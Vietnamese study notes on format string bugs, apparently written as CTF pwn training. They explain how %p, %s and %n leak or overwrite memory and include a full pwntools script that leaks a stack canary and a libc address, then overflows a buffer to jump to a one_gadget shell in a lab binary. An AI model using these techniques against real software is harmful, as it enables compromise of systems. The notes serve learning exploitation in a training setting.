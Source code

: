 # Giới thiệu chung
- %p, in địa chỉ trên thanh ghi  
  - đối với biến khi a = "A"; print("%p", a) thì khi đến hàm print() trên thanh ghi rsi là 0x41 nên %p sẽ in ra giá trị 0x41  
  - đối với mảng khi a[10] = "ABCDEABCDE" thì print("%p", a) sẽ in ra địa chỉ đầu của mảng  
- %c in ra 1 byte đang có trên thanh ghi và in ra theo ascii nghĩa là 0x1234 thì %c sẽ in ra 0x34 và đổi về kí tự theo mã ascii  
- %s nhận vào địa chỉ và in ra chuỗi mà địa chỉ đó đang trỏ đến, còn đối với mảng, khi print("%s", a) thì thanh ghi sẽ tự truyền địa chỉ đầu mảng vào và 
- %s sẽ trỏ đến địa chỉ đó và in ra cho đến khi gặp 0x00  
- %n đếm số lượng byte được in ra trước nó, rồi ghi vào biến được truyền địa chỉ

> Lưu ý:  
> Đối với 32bit: in dữ liệu trên stack  
>	64bit: 5% đầu của 5 thanh ghi, % thứ 6 là dữ liệu trên stack  


# leak dữ liệu bằng %p
%p sẽ in dữ liệu trên stack dưới dạng hex()
p64(): pack64 chuyển hex sang bytes
u64():unpack chuyển bytes sang hex

# leak dữ liệu = %s
%s leak dữ liệu địa chỉ mà địa chỉ trỏ đến (con) trong con trỏ  

Lưu ý khi fread() đọc dữ liệu từ file vào chương trình, khi đó ta cần lưu ý ,cẩn thận có thể sẽ chia flag ra nhiều phần. 

# %n
để thay đổi dữ liệu của một biến, ta sẽ cho in ra %{giá trị cần thay đổi}$c sau đó dùng %n để đọc các byte đã in ra và lưu vào địa chỉ mà %n trỏ đến  
Trường hợp giá trị cần thay đổi quá lớn thì có thể chia thành 2 lần in, tuy nhiên lần thứ 2, %n sẽ đọc n byte của lần 1 và cộng m byte của lần 2

# FMT & BOF
ở đây ta sử dụng một công cụ mới khi bof ret2libc là one_gadget, one_gadget có chức năng liệt kê ra các system('/bin/sh') và các điều kiện đi kèm, thường dùng cho trường hợp PIE bật.
cú pháp: ``` one_gadget tênfile ```
![image](https://user-images.githubusercontent.com/111769169/221520986-6851fe89-f872-4afa-84c2-d708f57fafd1.png)  

<details> <summary> script </summary>

```python3
from pwn import *
exe = ELF("./fmtstr4_patched")
libc = ELF("./libc-2.31.so")
p = process(exe.path)
gdb.attach(p, gdbscript = '''

b*main+354
c
           ''')
input()

payload = b'01234456789 %21$p %23$p'
p.sendafter(b"ID: ", payload)
p.sendafter(b'Password: ', b'&WPAbC&M!%8S5X#W')
p.recvuntil(b"01234456789 ")

canary = int(p.recv(18), 16)
leak_libc = int(p.recvuntil(b"Enter", drop = True)[1:], 16)
libc.address = leak_libc - 0x24083
log.info('canary: ' + hex(canary))
log.info('leak libc: ' + hex(leak_libc))
log.info('base: ' + hex(libc.address))
log.info('system ' + hex(libc.sym['system']))

one_gadget = libc.address + 0xe3b01
payload2 = b'a' * 56 + p64(canary) + b'b' *8
payload2 +=  p64(one_gadget)
p.sendafter(b"your secret: ", payload2)
p.interactive()
```

</details>

# %*
[FMT_Xmaster.md](https://github.com/wan-hyhty/trainning/blob/task3/FMT/FMT_Xmaster.md)

# Tấn công GOT 
[xFMasTree.md](https://github.com/wan-hyhty/trainning/blob/task3/FMT/xFMasTree.md)

